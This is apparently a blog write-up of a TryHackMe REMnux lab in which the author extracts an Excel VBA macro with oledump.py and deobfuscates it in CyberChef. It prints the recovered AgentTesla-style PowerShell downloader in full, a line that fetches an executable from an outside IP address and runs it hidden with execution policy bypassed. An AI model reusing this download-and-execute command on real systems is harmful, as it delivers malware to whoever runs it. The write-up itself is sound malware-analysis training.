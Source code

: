```yaml
---
title: "TryHackMe: REMnux Getting Started - Task 3 File Analysis"
author: Dustin Merritt
categories: [TryHackMe]
tags: [remnux, oledump, malware, vba, static analysis, cyberchef]
render_with_liquid: false
media_subpath: /images/tryhackme_remnuxgettingstarted/
image:
  path: room_image.webp
---
```


In this TryHackMe room, we used **REMnux** to analyze a suspicious Excel document named `agenttesla.xlsm`. We leveraged the `oledump.py` tool to extract and examine embedded macros, then used **CyberChef** to clean and interpret an obfuscated PowerShell payload. This exercise demonstrated a realistic scenario where VBA macros are used to drop malware onto a target system.

[![TryHackMe Room Link](room_image.webp){: width="300" height="300" .shadow}](https://tryhackme.com/room/remnuxgettingstarted){: .center }

## Initial Setup

We started by opening the **REMnux VM** and navigating to the provided file path:

```bash
cd /home/ubuntu/Desktop/tasks/agenttesla/
```

Running `oledump.py` on `agenttesla.xlsm` revealed several streams, notably:

```bash
oledump.py agenttesla.xlsm
```

Output:
```
A: xl/vbaProject.bin
 A1:       468 'PROJECT'
 A2:        62 'PROJECTwm'
 A3: m     169 'VBA/Sheet1'
 A4: M     688 'VBA/ThisWorkbook'
 A5:         7 'VBA/_VBA_PROJECT'
 A6:       209 'VBA/dir'
```

The stream labeled `A4` contains a **macro** (`M` flag), suggesting potential malicious behavior.

## Macro Extraction

We extracted the contents of the macro using:

```bash
oledump.py agenttesla.xlsm -s 4
```

This provided raw hex output, but it was difficult to interpret. To decode the VBA macro, we added the `--vbadecompress` flag:

```bash
oledump.py agenttesla.xlsm -s 4 --vbadecompress
```

The output revealed a familiar PowerShell obfuscation pattern using `*` and `^` as noise characters:

```vb
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* ... -Uri "http://193.203.203.67/rt/Doc-3737122pdf.exe" ..."
```

## PowerShell Deobfuscation with CyberChef

To make the PowerShell command human-readable, we used **CyberChef**:

- Apply two **Find/Replace** operations:
  - Replace `*` with an empty string
  - Replace `^` with an empty string

> 🔽 **Insert screenshot of CyberChef here showing the Find/Replace steps and the cleaned PowerShell script**

Once cleaned, the PowerShell command was clearly a downloader:

```powershell
powershell -WindowStyle hidden -executionpolicy bypass;
$TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' } PassThru;
Invoke-WebRequest -Uri "http://193.203.203.67/rt/Doc-3737122pdf.exe" -OutFile $TempFile;
Start-Process $TempFile;
```

## What Does This Do?

- **Hidden Window**: Avoid user suspicion
- **Bypass Execution Policy**: Allow running potentially blocked scripts
- **Download EXE**: Grab `Doc-3737122pdf.exe` from a suspicious IP
- **Execute**: Run the file on the target machine

This macro behavior is a classic example of **initial access malware delivery**, likely a variant of **AgentTesla**, a popular information stealer.

## Bonus: Analyzing `possible_malicious.docx`

We applied the same technique to `possible_malicious.docx`:

```bash
oledump.py possible_malicious.docx
```

Output:
```
... 16 data streams ...
... macro present at stream 8 ...
```

Another suspicious macro! These steps could easily be repeated to investigate further.

## Wrap-Up

This TryHackMe challenge was a practical introduction to static malware analysis using REMnux. Tools like `oledump.py` and CyberChef make reverse-engineering obfuscated macros more accessible. Remember, even Excel files can be trojan horses — always analyze before opening!

## Key Takeaways

- **Tool used**: `oledump.py`
- **Macro identified in stream**: `A4`
- **PowerShell function for downloading files**: `Invoke-WebRequest`
- **Downloaded file name**: `Doc-3737122pdf.exe`
- **Downloaded location**: `$TempFile`

---

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>